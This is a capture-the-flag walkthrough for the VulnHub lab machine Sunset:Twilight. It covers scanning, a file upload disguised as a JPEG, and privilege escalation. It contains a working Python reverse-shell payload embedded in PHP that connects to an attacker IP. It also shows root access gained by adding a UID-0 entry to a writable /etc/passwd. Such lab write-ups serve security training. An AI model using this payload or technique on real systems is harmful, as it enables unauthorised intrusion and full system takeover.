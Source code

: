 


# Sunset:Twilight Walkthrough 

**VulnHub Link:** [Sunset:Twilight](https://www.vulnhub.com/entry/sunset-twilight,512/)
**Difficulty:** Easy
**Release Date:** 16 Jul 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.141
```


## 2.Web Enumeration

```bash
dirb http://192.168.100.141
```

we found /gallery in webpage 

uploaded shell.php but only jpeg files allowed

starting burp ...

Content-Type: image/jpeg
```php
<?php
        echo "<pre>";
        echo `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.14",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`;
        echo "</pre>";
?>
```

before command above , 
```
rlwrap nc -nvlp 1234
```
we got www-data shell 

uploading and executing linpeas.sh 

found out /etc/passwd is writable
```bash
openssl passwd test
```
root1:<write here output>:0:0:root:/root:/bin/bash

su root1
(password : test)

and BINGOO User and Root flag captured
